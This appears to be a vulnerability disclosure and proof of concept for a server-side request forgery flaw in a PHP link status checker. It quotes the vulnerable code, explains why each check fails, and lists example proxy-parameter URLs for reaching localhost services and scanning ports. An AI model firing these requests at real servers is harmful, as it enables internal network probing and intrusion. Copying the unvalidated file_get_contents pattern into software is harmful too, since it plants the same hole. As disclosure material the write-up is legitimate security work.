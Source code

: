 # Link Status Checker SSRF Proof-Of-Concept

**Vulnerability:** Server-Side Request Forgery (SSRF) in PHP proxy
<br>
**Location:** ```index.php - proxy parameter```
<br>
**Impact:** Access to internal services, port scanning, cloud metadata access, potential internal network compromise.
<br>
**Source Code:** [Link Status Checker v1.0](https://www.sourcecodester.com/php/18275/link-status-checker-using-php-and-javascript-source-code.html)
<br>
<br>
<br>
**Usage:** ```https://example.com/?proxy=http://localhost/index.php```

![](./pocimage.png)

-----

### Why This Code is Vulnerable to SSRF
1. User-Controlled Input Without Proper Validation
```php
$url = $_GET['proxy']; // Directly takes user input
The code takes the proxy parameter directly from the URL without proper sanitization
```
This is the root cause of the SSRF vulnerability.

2. Insufficient URL Validation.
```php
if (!filter_var($url, FILTER_VALIDATE_URL)) {
    header('HTTP/1.1 400 Bad Request');
    exit('Invalid URL');
}
```
```FILTER_VALIDATE_URL``` only checks if the string looks like a URL

It doesn't validate whether the URL points to internal/restricted resources

Attackers can pass any URL that looks valid

3. Protocol Whitelisting Bypass
```php
$urlParts = parse_url($url);
if (!in_array($urlParts['scheme'], ['http', 'https'])) {
    header('HTTP/1.1 403 Forbidden');
    exit('Protocol not allowed');
}
```
This only checks the URL scheme (http/https)

However, attackers can still access internal services using http:// or https://

The restriction only blocks non-HTTP protocols, not internal targets

4. Dangerous Function: file_get_contents()
```php
$content = @file_get_contents($url, false, $context);
```
```file_get_contents()``` can make HTTP requests when given a URL

It follows redirects and can access internal network resources

The @ operator suppresses errors, making exploitation easier

5. No Network Restrictions
```php
$context = stream_context_create([
    'http' => [
        'timeout' => 5, // 5 second timeout
        'ignore_errors' => true // Get content even if HTTP error
    ]
]);
```
No restrictions on target IP addresses or domains

Can access localhost (127.0.0.1), internal network, or cloud metadata services

ignore_errors: true means it will return content even from error responses

------

### How the Exploitation Works
#### Basic SSRF Request
```text
http://localhost/link-status-checker/?proxy=http://google.com
PHP receives http://google.com as the target
```

Makes request to Google and returns the content

#### Internal Service Access
```text
http://localhost/link-status-checker/?proxy=http://127.0.0.1:80
PHP makes request to local port 80
```

Returns content from the local web server

#### Port Scanning
```text
http://localhost/link-status-checker/?proxy=http://127.0.0.1:22
PHP tries to connect to SSH port (22)
```

If port is open but not HTTP: "Failed to fetch URL"

If port is closed: "Connection refused"

